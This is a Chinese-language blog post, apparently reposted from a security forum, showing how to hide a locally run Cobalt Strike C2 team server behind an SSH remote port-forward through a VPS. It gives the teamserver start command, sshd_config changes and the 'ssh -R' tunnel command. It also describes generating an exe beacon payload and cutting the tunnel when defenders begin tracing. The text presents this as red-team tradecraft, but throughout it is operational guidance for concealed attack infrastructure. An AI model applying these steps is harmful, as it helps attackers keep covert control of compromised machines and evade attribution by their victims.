# 尝试将本地 C2 隐匿于 SSH 加密隧道中

> 原文：[https://www.zhihuifly.com/t/topic/3649](https://www.zhihuifly.com/t/topic/3649)

# 尝试将本地 C2 隐匿于 SSH 加密隧道中

## 0x01 大致思路拓扑说明



> 思路其实非常简单,首先,先在本地把 CobaltStrike 团队服务器 [ 即 C2 服务器 ] 起起来,然后再拿本地的 CobaltStrike 客户端连上去,接着,便是整个过程最关键的一步,建立 ssh 隧道并执行远程端口转发,谁和谁建呢? 也就是 本地的 linux 和 自己的 vps 建,远程转发的意思其实就是,当公网访问 vps 的某个指定端口时,就直接把这个端口的流量转到我本地机器的某个端口上,假如,本地机器机器的这个端口正好是 比如,CobaltStrike 类似这种监听器的端口,这意味着什么就很都清楚了,也就是所谓的本地 C2 beacon 上线，如果弟兄们真正理解了 ssh 隧道的远程转发,其实这些真的都挺简单的,单单只是作为使用者的我们来讲,完全不存在什么太多的技术含量在里面,ok,废话不多讲,来看实际操作

## 0x02 首先,到本地 linux 机器上启动 CobaltStrike 团队服务器[ 即 C2 服务器 ] 和 CobaltStrike 客户端,如下

> 本地启动 CS 团队服务器

```
# ./teamserver 192.168.3.137 admin 
```



> 然后启动 CS 客户端连到团队服务器上,并创建一个常规 http 反向监听器,监听 80 端口,注意,反向监听器是直接监听的本地 ip



> 接着,再创建一个 CS 外部监听器[协议,端口要和上面保持一致],这个外部监听器的主要作用就是把回连的流量先弹到我们公网的 VPS 机器上,因为此处全部是用域名在操作,所以,事先务必先添加一条指向 VPS 的 A 记录,如下







> 最后,再用上面创建的外部监听生成一个 exe payload



## 0x03 其次,开始尝试在 本地 linux 和 vps 机器 之间建立 ssh 隧道并执行 远程端口转发, 如下

> 先开启 vps ssh 转发

```
# vi /etc/ssh/sshd_config
AllowTcpForwarding yes
GatewayPorts yes
TCPKeepAlive yes
PasswordAuthentication yes
# systemctl restart sshd.service 重启 ssh 服务 
```

> 建立隧道并执行远程转发,即把来自外部的 80 端口流量全部转到本地 192.168.3.137 的 80 端口上,而这个端口正好又是上面事先准备好的 CS 的反向监听器端口,后果就是, beacon 直接上线

```
# ssh -C -f -N -g -R 0.0.0.0:80:192.168.3.137:80 root@mail.first.com -p 22 
```



> 平时记得养成习惯,远程转发建好以后,就立马就到 vps 上去看看对应端口到底有没有起来,别等了半天,一排查发现,隧道都不通,岂不尴尬,尽量别把时间浪费在这种没必要的地方



## 0x04 最终,本地 C2 beacon 上线效果

> 如下,从目标机器的网络连接中,几乎是看不到任何的连接痕迹,暂时已经达到了我们的 "隐蔽需求"



> 从 web log 我们也清晰的看到,走的全部都是本地 ip



## 小结:

至此为止,关于如何利用 ssh 隧道的远程端口转发来深度隐藏 C2 服务器基本也就说完了,实战证明,这种方式的稳定性暂时还是很不错的,相比之前的 C2 隐藏方式,这种方式的优劣势都非常明显,优势就在于避免直接把自己的 C2 服务器暴露在公网中,而且非常的灵活隐蔽, 灵活在哪儿呢? 一旦发现对方可能在溯源, 我们可以立即切断连接,不过,灵活中劣势也同时被凸显了出来,此方式并不适合拿来做长控,只适合临时渗透阶段用[ 比如,你可以暂时拿这种方式渗透,然后再用其它方式长控 ],隐蔽又在哪儿呢? 此处我只演示了最简单的单层 SSH 隧道,其实,在实战中,你完全可以将 SSH 隧道的 远程 和 本地端口转发 灵活配合起来实现多级的 SSH 隧道级联 隐藏,说到这儿,想必弟兄们都已经都很非常了然了,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运